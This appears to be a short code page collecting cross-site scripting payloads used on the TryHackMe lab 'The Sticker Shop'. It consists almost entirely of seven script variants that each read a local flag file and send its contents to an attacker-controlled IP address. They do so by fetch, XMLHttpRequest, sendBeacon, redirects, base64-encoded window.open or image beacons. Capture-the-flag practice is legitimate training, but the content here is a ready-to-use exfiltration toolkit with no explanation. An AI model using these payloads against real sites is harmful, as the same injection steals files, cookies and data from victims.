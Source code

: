 Payload used on TryHackMe room The Sticker Shop https://tryhackme.com/r/room/thestickershop
video walk through: https://youtu.be/lB68TvzPEHI

<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://10.10.36.125:8015', { 
      method: 'POST',
      body: data
    });
  });
</script>

==
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://127.0.0.1:8080/flag.txt', true);
xhr.onload = function() {
    fetch('http://10.10.36.125:8015', {
        method: 'POST',
        body: xhr.responseText
    });
};
xhr.send();
</script>

==

<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    navigator.sendBeacon('http://10.10.36.125:8015', data);
  });
</script>

===

<script>
(async () => {
  try {
    const response = await fetch('http://127.0.0.1:8080/flag.txt');
    const data = await response.text();
    await fetch('http://10.10.36.125:8015', {
      method: 'POST',
      headers: { 'Content-Type': 'text/plain' },
      body: data
    });
  } catch (error) {
    // Optional error handling
  }
})();
</script>

== get
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    window.location = `http://10.10.36.125:8015?flag=${encodeURIComponent(data)}`;
  });
</script>


base64:

<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    window.open(`http://10.10.36.125:8015?flag=${btoa(data)}`, '_blank');
  });
</script>

===
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    var img = new Image();
    img.src = `http://10.10.36.125:8015/?flag=${encodeURIComponent(data)}`;
  });
</script>

===
